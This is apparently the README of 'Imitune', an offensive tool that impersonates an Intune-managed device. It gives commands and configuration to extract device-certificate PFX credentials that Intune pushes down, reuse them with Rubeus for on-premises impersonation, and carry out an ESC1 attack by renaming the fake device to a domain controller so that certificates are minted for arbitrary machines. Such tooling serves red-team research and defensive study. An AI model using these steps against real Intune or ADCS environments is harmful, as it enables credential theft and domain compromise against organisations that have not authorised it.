 # Imitune
An OMA-DM client and set of helper tools to impersonate an MDM managed device

## Background
This tool works best when you already have a working knowledge of the environment and can provide as much detail about the environment as possible

## Usage
1. Obtain an MDM certificate for an Intune management device
See our blog post here on how to accomplish this step:
https://specterops.io/blog/2025/07/30/entra-connect-attacker-tradecraft-part-3/
2. Copy the managementTree.json.template to managementTree.json. This represents all of your device settings and you should closely examine and modify the properties to your use case. Of note:
DNSComputerName is the display name that will be presented in the Intune admin panel
```
"./DevDetail/Ext/Microsoft/DNSComputerName": "DEVICES BY HOTNOPS", 
```
DeviceName is the value that will be used to populate the {{fullyQualifiedDomainName}} and {{deviceName}} properties
```
"./DevDetail/Ext/Microsoft/DeviceName": "DC02",
```
The ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion is very important. Modifying this field will trigger a re-sync of all cached properties in Intune.

3. Run an init commanad
```
python -m imitune 
--device-name DEVICE_NAME // This is only used for the source field of the OMA-DM message. Values in the managementTree.json file will be used for all management tree values
--pfx-file-path PFX_FILE_PATH // Path to the MDM certificate
--pfx-password // Password to the PFX file in the previous argument
--dummy-path // for testing, takes in a series of XML requests and respones from SyncMLViewer
--user-prompt // prompt the user before each request is sent
--output-directory // Output directory for loot and trace files. Uses --device-name if not provided
--user-jwt // Pass in a user JWT with management.microsoft.com aud to imitate a user logged into the device. This will help obtain configuration profiles scoped to individual users
```

Example:
```
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init


██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] got a request for ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/Status. sending 0
```

This tells is a desired response and tells us that Intune is asking about a particular certificate, and Imitune replied with an empty data response. This will trigger intune to send us a new ceritificate the next time we check in. If you modified the ./DevDetail/Ext/Microsoft/DeviceName parameter, wait for five minutes so that the request can be sent to the Intune Certificate Connector and returned. Once enough time has passed, re-run the command:

```
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init

██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] obtained credentials at ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/PFXCertBlob. extracting
```

And you'll see that we have a PFX file saved in our output directory. You can use this PFX file with Rubeus to impersonate the device on-premises.

## ESC1 Minting
If a property in the managementTree is used to populate the subject or SAN of a certificate, we can mint certificates for any on premises device we want. To do so, we'll need to modify our managementTree.json and set the CacheVersion to 0
```
"./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion": "0",
```
Also, remove any line that starts with
```
./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall
```
We remove these so that when Intue asks about them, we respond with a 404 and indicate that they need to be sent back down. Lastly, we need to rename our device to the target of our ESC1 attack:
```
"./DevDetail/Ext/Microsoft/DeviceName": "DOMAINCONTROLLER",
```
Once our managementTree.json is ready, we will initiate our sync with the invalid CacheVersion. Intune will proceed to send down the entire node cache and inquire about the certs that need to be installed.
```
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init
```
It will take up to five minutes for the CSR request to be sent to the ADCS server and returned. After waiting, re-run the command (without modifying the managementTree.json!) and the certificate should be returned.

## Troubleshooting
* Trace files
Imitune saves all requests and responses in the $outputDir\traces folder. You can use these to determine what Intune is asking for and tweak any values in the managementTree.json file.
* Intune is resonding to my first request with an empty response
You don goofed. This happened to me so so many times when developing this. Figure out what you sent that broke Intune, wait 30 minutes, and try again.